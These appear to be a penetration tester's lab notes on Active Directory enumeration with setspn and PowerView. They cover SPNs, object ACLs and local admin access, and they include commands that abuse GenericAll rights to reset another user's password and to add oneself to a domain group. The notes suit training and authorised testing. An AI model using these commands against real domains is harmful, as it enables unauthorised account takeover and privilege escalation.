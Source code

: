 #### service accounts

services launched by the system run as a Service Account

use setspn to enumerate the iis_service user

    PS> setspn -L iis_service

powerview can also enumerate spns

    PS> Get-NetUser -SPN | select samaccountname,serviceprincipalname

if we find a web server we can try to see the ip it resolves to

    PS> nslookup.exe web04.corp.com

#### object permission

    PS> Find-InterestingDomainAcl | select identityreferencename,activedirectoryrights,acetype,objectdn | ?{$_.IdentityReferenceName -NotContains "DnsAdmins"} | ft

### NOTE: can use above to find genericall for user and then change perms with - net user john pass123! \domain

after this we can log in as the user and run 

    PS> Find-LocalAdminAccess

to find if we have local admin access then we can move to that machine to see what more we can uncover

enumerate ACLS for object group inside powerview

    PS> Get-ObjectAcl -Identity user

    PS> Get-ObjectAcl -Identity "Group  Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

convert SIDs results to readable ouptput

    PS> "S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName

add ourselves to a specific group

    PS> net group "Management Department" myuser /add /domain

check that we were added

    PS> Get-NetGroup "Group Department" | select member

delete member

    PS> net group "Group Department" myuser /del /domain

### NOTE: GenericAll is a powerful ACL permission to have tied to an account

#### enumerating domain shares

powerview has this capability
